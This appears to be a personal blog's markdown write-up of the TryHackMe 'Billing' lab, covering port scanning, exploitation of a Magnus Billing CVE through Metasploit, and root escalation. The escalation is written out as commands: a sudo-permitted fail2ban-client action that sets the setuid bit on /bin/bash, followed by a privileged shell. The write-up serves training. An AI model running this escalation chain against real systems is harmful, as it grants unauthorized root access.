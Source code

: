 ```yaml
---
title: Write-up — Billing
date: 2025-07-16 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf]
image: 'assets/img/articles/Billing.png'
description: "Explore my step-by-step guide to the TryHackMe Billing room. Learn how to perform reconnaissance with RustScan and Nmap, exploit web app vulnerabilities, and escalate privileges using Fail2Ban. Perfect for cybersecurity enthusiasts and professionals."
---
```


> Walkthrough of room Billing from TryHackMe :
> https://tryhackme.com/room/billing

This room is designed to teach you about billing systems and how to exploit them. It covers various aspects of billing, including vulnerabilities, exploitation techniques, and privilege exploitation.

---

## Recon

We will start by some recon...
![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG14ejdmY3dhd283Nm1obGswNGFuZDZvYmxndno5NXE5NXkzaWFmNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/i9cngh3Kw09GxlsrFP/giphy.gif)

```bash
$ rustscan -a $TARGET        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/hisoka/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.127.112:22
Open 10.10.127.112:80
Open 10.10.127.112:3306
Open 10.10.127.112:5038

...

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
5038/tcp open  unknown syn-ack ttl 63
```

We need to uncover the unknown service.

```bash
$ nmap -sC -sV $TARGET -p5038
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 17:15 CEST
Nmap scan report for billing.thm (10.10.127.112)
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

![You said asterix](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXU1eTFkMHB4bDRtbHc4OXlueXhhYnFodTRyNGN4OXozczE0MDhubSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/1Md9azxcgIyQ/giphy.gif)
_You said Asterix!!!_

So we have 4 services running:

| Port | Service  | Purpose  |
| ---- | -------- | -------- |
| 22   | ssh      |          |
| 80   | http     | Web      |
| 3306 | mysql    | Database |
| 5038 | asterisk | VoIP     |

Let's check the web page. It seems, we have a web application running on the server.

![Login page](assets/img/2025-07-16-THM-Billing/magnus-login-page.png){: w="600"}

The web page url contains the term *mbilling* (`/mbilling`). Probably link to a payment feature or something like that.
A quick search on Google help me to discover the name of the web app called **Magnus Billing** (same logo, use Asterisk can't be wrong).

![](assets/img/2025-07-16-THM-Billing/mbilling-google.png){: w="600"}

A great new is we have a cve (**CVE-2023-30258**) for our web app.

![](assets/img/2025-07-16-THM-Billing/exploit-db.png){: w="600"}

![](assets/img/2025-07-16-THM-Billing/metasploit-magnus-search.png){: w="600"}

And it's also available on metasploit!!!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa2Q0ZTZkZmlwMDZiZXZlNXU1Y2M3dW8wYWcwZDZuZzk1b2pqem95eCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/BYul6RujgoRCryuCdL/giphy.gif)

A little config on the exploit to make it work.
![](assets/img/2025-07-16-THM-Billing/meterpreter-session.png){: w="600"}

## Initial access

```bash
$ whoami
whoami
asterisk

$ ls /home
ls /home
debian	magnus	ssm-user

$ ls /home/magnus
ls /home/magnus
Desktop    Downloads  Pictures	Templates  user.txt
Documents  Music      Public	Videos

$ cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{********************************}
```

And voila!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXA2Z210MXB4bzBsODVwNmxreXYzNWQzaW10MXR1ODA5eWpuZDZhYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/kxUhZ0TY46X1Dk48ru/giphy.gif)

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-127-112:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-127-112:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

That means we can execute **`fail2ban-client`** with **sudo** rights.

Let's explain few things about **`fail2ban`**. Fail2Ban is an open-source intrusion prevention software framework designed to protect computer servers from brute-force attacks and other automated threats. Its primary purpose is to enhance the security of a system by monitoring log files for suspicious activity and **taking automated actions** to mitigate potential threats. For example, if a suspicious IP tries to connect to ssh server by brute-forcing the password, fail2ban can block the IP based on a criteria (like 10 connexion attempts).
So we can abuse `fail2ban-client` by setting an evil automated actions.

```bash
$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

$ sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd addaction evil
evil

$ sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash

$ sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4

$ /bin/bash -p
/bin/bash -p

bash-5.2# whoami
whoami
root
```

**Explanation**

- *Listing Jails*: The `status` command lists all active jails managed by Fail2Ban.
- *Adding an Action*: The `addaction` command adds a new action to the specified jail.
- *Setting the Payload*: The `actionban` command sets the script or command to be executed when an IP is banned.
- *Triggering the Payload*: The `banip` command triggers the `actionban` script, executing your payload with elevated privileges.
- `chmod +s /bin/bash`: sets the setuid bit on the Bash executable, allowing users to run it with the permissions of its owner, typically root.
- `/bin/bash -p`: to start a Bash shell with root privileges. The `-p` option ensures that the shell retains the elevated privileges.

```bash
bash-5.2$ whoami
whoami
root

bash-5.2$ ls /root
ls /root
filename  passwordMysql.log  root.txt

bash-5.2$ cat /root/root.txt
cat /root/root.txt
THM{********************************}
```

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazBncDNpcTIxaTQ0N3E4Njhjb2NhZWQwdXhxOGxqamdhbmdocTJyeSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/STrEzUEFPWLsY/giphy.gif)

All flags down, mission passed.

Be proud of what you’ve accomplished.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif)

See you soon!

> “Cybersecurity is a continuous cycle of protection, detection, response, and recovery.” — Chris Painter

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>